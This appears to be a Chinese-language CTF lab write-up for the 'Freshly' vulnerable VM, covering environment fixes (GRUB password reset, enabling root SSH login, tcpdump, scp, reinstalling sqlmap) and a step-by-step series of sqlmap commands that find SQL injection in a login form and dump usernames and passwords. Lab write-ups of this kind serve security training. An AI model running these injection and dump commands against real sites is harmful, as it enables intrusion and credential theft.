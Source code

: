# 参考
* https://www.freebuf.com/column/162631.html
* https://www.jianshu.com/p/63becdb8c2f8
# 一些环境问题
* 破解密码(为什么要破解是当时俩台虚拟机不在同一个虚拟软件上一直没有扫到对应mac的主机)。
* 1.在没有进入引导前光标切进去长按shift进入grub。
* 2.安装open-server 
* sudo apt-get update 
*  sudo apt-get install openssh-server  
* ps -e | grep ssh
* sudo /etc/init.d/ssh resart
* 3.开启ssh root登录。 vi /etc/ssh/sshd_config
* 4.用tcpdump
* tcpdump -D 
* tcpdump -i eth0 -w file.cap
* 5.用scp
* scp root@107.172.27.254:/home/test.txt .   //下载文件
* 
* scp test.txt root@107.172.27.254:/home  //上传文件
* 
* scp -r root@107.172.27.254:/home/test .  //下载目录
* 
* scp -r test root@107.172.27.254:/home   //上传目录
* 6.靶机我这只能用vmbox打开了，vmware是一直报错，然后俩个不同的虚拟机可能网段不一样，按理全选桥接应该是一个网段的但是有时也不一样，我就一直重启直到俩个虚拟机网段一样，实现不行用vmbox也跑kali(vmware桥接无法分配ip 找到编辑->虚拟机网络编辑器->找到桥接模式那一行的外部链接要选种主机的网卡)。
* 7.靶机apache2服务器有问题，8080与443端口没打开，我就直接翻他的配置文件了，在 /etc/apache2/sites-available/000-default.conf 中有 /var/www/html。
* 8.sqlmap无法更新
* 解决方法： 找到sqlmap的路径/usr/share/salmap
* 
* 执行 cd /usr/share/
* 
* 然后删掉sqlmap   rm -rf sqlmap/
* 
* 然后执行 git clone https://github.com/sqlmapproject/sqlmap
* 
* 克隆到路径即可。

# sqlmap 语句
* 开始扫描漏洞
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3
* 开始扫描数据库
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 --dbs
* 指定数据库扫数据库表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 --tables
* 指定数据库表扫字段
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users--columns
* 指定字段dump表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users -C "password,username" --dump
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/user-pass.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/sqlmap.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/http.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/cve.png)
